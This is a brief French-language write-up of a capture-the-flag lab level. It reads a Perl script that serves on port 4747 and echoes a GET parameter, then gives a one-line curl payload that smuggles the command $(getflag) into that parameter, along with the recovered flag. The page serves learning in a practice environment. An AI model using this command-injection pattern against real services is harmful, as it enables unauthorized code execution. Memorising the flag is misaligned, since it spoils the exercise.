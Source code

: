 1. Afficher le code de `level04.pl`
2. On remarque que le code lance un serveur sur le port 4747 qui retourne un `echo` du paramètre GET `x`
3. Il suffit d'envoyer la commande suivante `curl http://$URL:4747/?x=$(getflag)`

> Flag: ne2searoevaevoem4ov4ar8ap